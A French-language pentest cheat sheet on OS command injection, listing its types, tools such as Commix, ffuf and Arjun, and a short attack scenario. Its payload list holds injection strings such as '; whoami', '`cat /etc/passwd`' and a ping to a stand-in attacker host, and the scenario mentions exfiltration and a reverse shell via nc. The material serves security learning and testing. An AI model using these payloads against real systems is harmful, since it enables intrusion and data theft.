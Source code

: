 
## 🖥️ Command Injection (OS Command Injection)

---

## Introduction

La <span class="concept">Command Injection</span> (OS Command Injection) permet à un attaquant d’injecter des commandes système arbitraires dans une application vulnérable.

Elle peut permettre :
- Exécution de commandes système
- Exfiltration de données
- Contrôle total du serveur

Souvent critique : conduit à un RCE.

---

## Objectifs

- <span class="goal">Identifier des points d’injection OS</span>
- <span class="goal">Exécuter des commandes système ciblées</span>
- <span class="goal">Obtenir un shell (reverse shell)</span>

---

## Outils & commandes

| Outil | Exemple & explication |
|-------|-----------------------|
| <span class="technology">Burp Suite (Repeater)</span> | Injection manuelle |
| <span class="technology">Commix</span> | <span class="example">commix --url target --os-cmd whoami</span> |
| <span class="technology">ffuf</span> | <span class="example">ffuf -u target?param=FUZZ -w payloads-cmd.txt</span> |
| <span class="technology">PayloadsAllTheThings</span> | Cheatsheet + payloads |
| <span class="technology">bbot</span> | Recon + param discovery |
| <span class="technology">Arjun</span> | Fuzzing paramètres |

---

## Types de Command Injection

| Type | Exemple |
|------|---------|
| <span class="concept">Classic</span> | `param=ls` |
| <span class="concept">Chained / Separator</span> | `; whoami` |
| <span class="concept">Blind (boolean)</span> | Test par changement réponse |
| <span class="concept">Blind (time-based)</span> | Injection delay (sleep) |
| <span class="concept">Out-Of-Band</span> | Exfil via DNS / HTTP |

---

## Techniques clés

| Technique | Outil |
|-----------|------|
| <span class="concept">Manual injection</span> | Burp Repeater |
| <span class="concept">Automated testing</span> | Commix |
| <span class="concept">Param discovery</span> | Arjun |
| <span class="concept">Fuzz payloads</span> | ffuf |
| <span class="concept">Bypass filters</span> | manual |

---

## Payloads courants

```
; ls
&& whoami
| id
`cat /etc/passwd`
; sleep 5
`ping -c 5 attacker.com`
```

---

## Bonnes pratiques

- <span class="best-practice">Toujours vérifier le contexte (param GET, POST, cookie, header...)</span>
- <span class="best-practice">Limiter le bruit en prod</span>
- <span class="best-practice">Documenter l’impact (RCE / data access)</span>
- <span class="mitigation">Ne jamais déclencher un DoS involontaire</span>
- <span class="best-practice">Utiliser PayloadsAllTheThings pour payloads adaptés</span>

---

## 🎯 Exemple de scénario

> <span class="note">🖥️ Cible :</span> Interface admin vulnérable (param `host`)

Actions :
- <span class="technology">Arjun</span> → découverte param `host`
- <span class="technology">Burp Repeater</span> → test `; whoami` → user `apache`
- <span class="technology">Commix</span> → automatisation injection + exfil
- Reverse shell obtenu avec `nc`

---

## Cheatlist Command Injection

| Type | Outils |
|------|--------|
| Manual | Burp, PayloadsAllTheThings |
| Automated | Commix |
| Fuzz | ffuf |
| Param discovery | Arjun, bbot |

---

## 🚀 Navigation

- 🚀 [[06_IDOR]]
- 🚀 [[07_Broken_Access_Control]]
